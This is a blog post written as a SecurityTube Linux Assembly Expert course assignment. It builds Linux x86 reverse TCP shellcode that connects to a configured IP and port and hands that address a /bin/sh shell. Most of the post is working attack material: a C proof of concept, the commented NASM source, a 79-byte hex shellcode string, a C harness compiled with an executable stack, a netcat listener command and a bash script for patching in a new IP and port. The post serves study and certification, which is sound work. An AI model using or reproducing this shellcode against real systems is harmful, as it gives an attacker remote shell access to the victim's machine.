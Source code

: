 ```yaml
---
comments: true
date: 2014-04-04
layout: post
title: 'SLAE Assignment 2: Reverse Bind TCP Shellcode'
subtitle: '2nd assignment of the SLAE'
---
```


This is the second of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a shellcode that reverse connect to a configured ip and port;
	
  2. The shellcode must execute /bin/sh on successful connection;
	
  3. IP and port number should be easily configurables

The difference between this assignment and the [previous one](http://www.paolostivanin.com/blog/2014/04/03/slae-assignment-1-bind-tcp-shellcode/) is that in the first assignment the shellcode "is a server" so we connect to it using netcat and then a shell is executed and "bound" to the **client terminal** while in this one the shellcode "is a client" so we need netcat running in listen mode on the configured ip and port and after a successful connection a shell **is bound to the server terminal**.

First of all i made a proof of concept of a program that connect to a configured ip (192.168.1.167) and port (7500) and execute /bin/sh on successful connection. I used dup2 to makes 0, 1 and 2 (stdin, stdout and stderr) be the copy of fd.
    
	#define STDIN 0
	#define STDOUT 1
	#define STDERR 2

	int main(void){
		int fd;
		struct sockaddr_in server_addr;
		char *argv[] = { "/bin/sh", NULL };

		server_addr.sin_family = AF_INET;
		server_addr.sin_port = htons(7500);
		server_addr.sin_addr.s_addr = inet_addr("192.168.1.167");

		fd = socket(AF_INET, SOCK_STREAM, 0);

		connect(fd, (struct sockaddr *)&server_addr, 16);

		//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
		dup2(fd, STDIN);
		dup2(fd, STDOUT);
		dup2(fd, STDERR);

		execve(argv[0], &argv[0], NULL);

		return 0;
	}

As you can see in the above PoC, in our shellcode we'll need these syscall:

  1. two `sys_socketcall(int call, unsigned long *args)` where int call will be `SYS_SOCKET` and `SYS_CONNECT` according to `/usr/include/linux/net.h`;
	
  2. three `sys_dup2(int oldfd, int newfd)`;
	
  3. one `sys_execve(char *filename, char *argv[], char *envp[])` where both `*argv[]` and `*envp[]` must be null terminated;

Below there is the complete shellcode:

	;Description:	Assignment #2 (Reverse_Shell_Bind_TCP, 79 bytes)
	;Shellcode:		\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80
	;Author: 		Paolo Stivanin <https://github.com/paolostivanin>
	;SLAE ID:		526

	global _start
	section .text
	_start:
		;socket(): sys_socketcall(int call, unsigned long *args)
		;eax -> sys_socketcall
		;ebx -> SYS_{SOCKET(1),BIND(2),CONNECT(3),LISTEN(4),ACCEPT(5),...}
		;ecx -> args(AF_INET{/usr/include/bits/socket.h -> 2}, SOCK_STREAM{/usr/include/bits/socket_type.h -> 1}, 0)
		xor edx,edx
		xor ebx,ebx
		push BYTE 0x66 	;sys_socketcall
		pop eax
		inc ebx			;SYS_SOCKET
		push edx		;0
		push BYTE 1 	;SOCK_STREAM
		push BYTE 2		;AF_INET
		mov ecx,esp
		int 0x80
		xchg esi,eax

		;connect(): sys_socketcall(int call, unsigned long *args)
		;eax -> sys_socketcall
		;ebx -> SYS_CONNECT
		;ecx -> args(sockfd{esi}, {sa_family{2},sin_port{7500},sin_address{192.168.1.167}}, 16)
		mov BYTE al,0x66
		inc ebx
		inc ebx					;SYS_CONNECT
		push DWORD 0xa701a8c0	;192.168.1.167
		push WORD 0x4c1d		;port 7500
		push WORD 2				;AF_INET
		mov ecx,esp
		push BYTE 16
		push ecx
		push esi
		mov ecx,esp
		int 0x80

		;dup2 sys_dup2(oldfd, newfd{0[stdin],1[stdout],2[stderr]})
		mov ebx,esi
		push BYTE 2
		pop ecx
		lp:	mov BYTE al,0x3f
		int 0x80
		dec ecx
		jns lp			;SF=0 positive, SF=1 negative. JNS (jump-if-not-sign) will loop while SF=0. When SF is set we reach a negative value so the loop stops.		

		;execve /bin/sh
		mov BYTE al,11
		push edx
		push 0x68732f2f
		push 0x6e69622f
		mov ebx,esp
		push edx
		mov edx,esp
		push ebx
		mov ecx,esp
		int 0x80

I also used [libemu](http://libemu.carnivore.it/) and dot to produce a graph of the execution flow of the shellcode:

[![graph_assign2]({{ site.baseurl }}/images/2014/04/graph_assign2-601x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign2.png)

To assemble, link and get the hex shellcode I used the[ same script of Assignment 1](https://github.com/paolostivanin/SLAE/blob/master/utility/for-shellcode/alg-shell.sh).

Before executing the program the C source file must be updated with the newest shellcode:
   
	/* Template for running shellcode
	* Author: Paolo Stivanin <https://github.com/paolostivanin>
	* SLAE Student ID: 526
	*/

	#include <stdio.h>
	#include <string.h>

	unsigned char shellcode[] = \
	"\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80";

	int main(void){
		printf("%zu\n", strlen(shellcode));
		int (*ret)() = (int(*)())shellcode;
		ret();
		return 0;
	}

Now it's time to compile the file with gcc -fno-stack-protector -z execstack main.c -o Reverse_Shell_Bind_TCP (or with [this](https://github.com/paolostivanin/SLAE/blob/master/utility/for-shellcode/compile_gcc.sh) script) and then:

  1. open a terminal and type nc -v -l -p 7500
	
  2. execute Reverse_Shell_Bind_TCP

**[![ass2]({{ site.baseurl }}/images/2014/04/ass2-1024x575.png)]({{ site.baseurl }}/images/2014/04/ass2.png)**

The last point of this assignment ask to provide an easily way to configure the ip address and the port number. To accomplish this request I developed this small script:

	#!/bin/bash

	#Description:	Assignment #2 (Reverse_Shell_Bind_TCP, configure ip and port)
	#Author: 		Paolo Stivanin <https://github.com/paolostivanin>
	#SLAE ID:		526

	if [ -z "$1" ]; then
		echo "Usage: $0 <elf-file>"
		exit -1
	fi

	oldip=$(od -t x1 $1|grep -E -o "43 68.{0,12}"|sed 's/\ //g'|sed 's/^.\{4\}//g')
	hexoldip=$(printf '%s' $oldip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')

	oldport=$(od -t x1 $1|grep -o -P "66 68.{6}"|sed 's/\(......\)//g'|sed 's/\ //g')
	hexoldport=$(printf '%s' $oldport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')

	echo "[?] Write IP in dotted format (eg 192.168.1.167): "
	read dotip
	hexip=$(printf '%02x' $(echo ${dotip//./ }))

	echo "[?] Write port number: "
	read port
	hexport=$(printf '%x' $port)

	echo "[+] HEX code of choosed IP: $hexip"
	echo "[+] HEX code of choosed port: $hexport"

	echo "[+] Updating $1 elf..."
	newport=$(printf '%s' $hexport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')
	sed -i "s/\x66\x68$hexoldport/\x66\x68$newport/g" $1
	newip=$(printf '%s' $hexip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')
	sed -i "s/\x43\x68$hexoldip/\x43\x68$newip/g" $1

	echo "[+] All done :)"

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
